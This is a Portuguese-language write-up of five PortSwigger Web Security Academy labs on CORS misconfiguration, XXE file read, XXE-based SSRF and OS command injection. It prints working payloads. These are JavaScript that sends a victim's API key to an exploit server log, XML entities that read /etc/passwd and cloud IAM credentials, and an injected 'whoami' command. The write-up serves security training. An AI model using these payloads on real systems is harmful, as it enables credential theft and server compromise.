# PortSwigger Labs — CORS, Exploiting XXE e OS Command Injection

> Resolvidos em 02/10/2026 — Web Security Academy

---

## 1. CORS vulnerability with basic origin reflection



### Para que serve essa vulnerabilidade
CORS (Cross-Origin Resource Sharing) mal configurado permite que um site qualquer, de qualquer origem, faça requisições autenticadas (com cookies da vítima) a um endpoint sensível e leia a resposta via JavaScript. Quando o servidor reflete qualquer `Origin` enviado de volta no header `Access-Control-Allow-Origin` e ainda permite `Access-Control-Allow-Credentials: true`, ele está essencialmente confiando em qualquer site da internet.

### Como foi feito o exploit
1. Login na conta (`wiener:peter`), abertura de "My account" — dispara um AJAX para `/accountDetails`, que retorna a API key.
2. Confirmação da vulnerabilidade via Burp: requisição enviada ao Repeater com o header `Origin: https://example.com` adicionado manualmente. A resposta refletiu exatamente essa origem:
   ```
   Access-Control-Allow-Origin: https://example.com
   Access-Control-Allow-Credentials: true
   ```

   
   

3. Exploit JavaScript montado no exploit server:
   ```html
   <script>
       var req = new XMLHttpRequest();
       req.onload = reqListener;
       req.open('get','https://LAB-ID.web-security-academy.net/accountDetails',true);
       req.withCredentials = true;
       req.send();

       function reqListener() {
           location='/log?key='+this.responseText;
       };
   </script>
   ```
4. Testado em si mesmo (View exploit) e depois enviado à vítima (Deliver exploit to victim).
5. API key do administrador capturada no log do exploit server:

   

6. Key submetida no formulário do lab, resolvendo-o.

---

## 2. CORS vulnerability with trusted null origin



### Para que serve essa vulnerabilidade
Variante do CORS mal configurado: o servidor confia especificamente na origem literal `null`, que é gerada por navegadores em certos contextos (como um iframe com `sandbox` sem `allow-same-origin`, arquivos locais, ou redirects). Isso permite contornar restrições de origem mesmo sem controlar um domínio real.

### Como foi feito o exploit
1. Login na conta própria.
2. Confirmação via Burp: requisição a `/accountDetails` reenviada com `Origin: null`, e a resposta refletiu:
   ```
   Access-Control-Allow-Origin: null
   Access-Control-Allow-Credentials: true
   ```

   

3. Exploit montado usando um iframe com `sandbox`, que força o navegador a gerar requisições com `Origin: null`:
   ```html
   <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
       var req = new XMLHttpRequest();
       req.onload = reqListener;
       req.open('get','https://LAB-ID.web-security-academy.net/accountDetails',true);
       req.withCredentials = true;
       req.send();
       function reqListener() {
           location='https://EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
       };
   </script>"></iframe>
   ```
4. Testado, entregue à vítima, e a API key do administrador foi capturada no log:
   ```
   c3x9jTAfKCkPeU0AnHGaFJvVI5rRVgYR
   ```
5. Key submetida, lab resolvido.

   

---

## 3. Exploiting XXE using external entities to retrieve files



### Para que serve essa vulnerabilidade
XXE (XML External Entity) ocorre quando um parser XML processa entidades externas sem restrição. Isso permite definir uma entidade que lê arquivos arbitrários do sistema de arquivos do servidor, caso o valor retornado seja refletido de alguma forma na resposta da aplicação.

### Como foi feito o exploit
1. Acesso a um produto, clique em "Check stock", requisição POST com corpo XML interceptada no Burp.
2. Corpo original modificado para incluir uma entidade externa apontando para `/etc/passwd`, referenciada no campo `productId`:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
   <stockCheck>
       <productId>&xxe;</productId>
       <storeId>1</storeId>
   </stockCheck>
   ```
3. Requisição enviada — a resposta retornou `"Invalid product ID:"` seguido do conteúdo completo do `/etc/passwd`, resolvendo o lab.

   

---

## 4. Exploiting XXE to perform SSRF attacks



### Para que serve essa vulnerabilidade
Combinação de XXE com SSRF: em vez de ler um arquivo local, a entidade externa faz uma requisição HTTP interna a partir do próprio servidor. Isso é usado para atacar o endpoint de metadados de instâncias EC2 (`169.254.169.254`), que em ambientes cloud mal protegidos expõe credenciais temporárias de IAM — permitindo escalar de uma falha simples de parsing XML até controle sobre recursos de nuvem inteiros.

### Como foi feito o exploit
1. Mesmo ponto de injeção do lab anterior (campo `productId` via XXE).
2. Entidade apontada iterativamente para o endpoint de metadados, navegando pela estrutura da API até chegar nas credenciais:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin" >]>
   <stockCheck>
       <productId>&xxe;</productId>
       <storeId>1</storeId>
   </stockCheck>
   ```
3. Resposta retornou um JSON com `AccessKeyId`, `SecretAccessKey` e `Token`, resolvendo o lab:

   

   Essas credenciais, na prática, poderiam ser usadas para configurar o AWS CLI e atuar com as permissões da role comprometida (listar buckets S3, acessar bancos de dados, mover lateralmente pela infraestrutura cloud) — motivo pelo qual a AWS criou o IMDSv2 para dificultar esse tipo de ataque via SSRF.

---

## 5. OS command injection, simple case



### Para que serve essa vulnerabilidade
OS Command Injection é uma das vulnerabilidades mais críticas que existem: permite executar comandos arbitrários diretamente no sistema operacional do servidor (não apenas ler dados ou fazer requisições, como em SSRF/XXE). Na prática, abre caminho para explorar a máquina inteira — listar arquivos, obter shell reverso, mover lateralmente na rede interna, roubar segredos (variáveis de ambiente, credenciais de banco), instalar backdoors ou apagar logs.

### Como foi feito o exploit
1. Em um produto, clique em "Check stock", requisição interceptada no Burp.
2. Parâmetro `storeId` alterado de `1` para:
   ```
   1|whoami
   ```
   O caractere `|` (pipe) encadeia comandos no shell — o servidor executa `1` normalmente e, em seguida, `whoami`, retornando ambas as saídas na resposta.
3. Requisição enviada — a resposta retornou o nome do usuário atual do sistema (`peter-GvBurl`), resolvendo o lab.

   
